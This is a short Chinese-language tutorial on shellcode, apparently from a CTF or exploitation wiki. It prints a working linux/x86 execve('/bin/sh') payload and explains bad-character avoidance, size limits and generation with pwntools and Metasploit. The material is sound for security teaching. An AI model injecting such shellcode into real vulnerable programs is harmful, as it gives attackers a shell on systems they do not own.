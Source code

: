 # Shellcode

Shellcode 是一小段代码, 在漏洞利用后用于注入到目标程序中执行. 常见的一个功能是获取 shell 因此得名.  

## 编写

以下是一段简单的 shellcode 代码:  

```asm
# linux/x86 execve("/bin/sh", 0, 0) 21 bytes
global _start
_start:
    xor  edx, edx ;; argv = 0
    xor  ecx, ecx ;; envp = 0
    push ecx
    push "/sh"
    push "/bin"
    mov  ebx, esp ;; pathname = "/bin/sh"
    mov  al, 0xb  ;; execve NR
    int  0x80     ;; syscall
```

可以使用在线工具 [Compiler Explorer](https://godbolt.org/) 进行编译, 在 Linux 下可以使用 [NASM](https://www.nasm.us/) 进行编译:  

```sh
nasm -f elf32 shellcode.asm             # 编译
ld -m elf_i386 -o shellcode shellcode.o # 链接
objdump -d shellcode                    # 打印反汇编结果
```

设置参数并将系统调用的 NR(number) 写入指定寄存器后触发中断即可. 其他指令集的用法有所不同, 具体使用方式请参考 [Linux 系统调用](https://publicki.top/syscall.html).  

## 定制

根据漏洞的具体情况, shellcode 会受到一定限制. 下面将简要说明如何满足这些限制.  

### 限制能使用的字符

以常见的 bad char 0x00('\0') 为例, 观察二进制代码会发现 `push "/sh"` 由于参数大小为 24 比特, 因此被当作 imm32. 最后多出的一字节使用 0 填充, 产生了 0x00, 使得该 shellcode 无法作为一个 C-style 的字符串.  
将该命令改为 `push "//sh` 即可在不影响程序运行/不增加大小的情况下消除这个 0x00.  
传递给 execve 的两个参数也为 0, 这里使用 xor 来将寄存器的值改为 0, 避免直接以 0 作为立即数而导致产生 0x00.  

### 限制长度

手工编写专用的 shellcode, 以实现体积最小化. 还可以将体积较大的 shellcode 存放在其他位置(对大小不敏感, 但不能执行), 然后搜索并执行.  

!!! info "CTF"
    可能限制系统调用的使用, 此时需要编写专门的 shellcode 只通过可用的系统调用完成任务.  

## 生成

- 利用 [MSF](./Metasploit.md) 生成 shellcode, 可定制.
- 利用 [ALPHA3](https://github.com/TaQini/alpha3) 生成由可见字符集构成的 shellcode.
- 利用 [pwntools](https://github.com/Gallopsled/pwntools) 生成特定架构和系统的 shellcode, 不可定制.

    ```py
    from pwn import *
    context(arch = 'i386', os = 'linux') # linux/x86
    print shellcraft.sh()      # 输出 shellcode 汇编代码
    print asm(shellcraft.sh()) # 输出 shellcode 二进制代码
    ```

## 拓展

- [Exploit Database Shellcodes](https://www.exploit-db.com/shellcodes)
- <http://shell-storm.org/shellcode/>
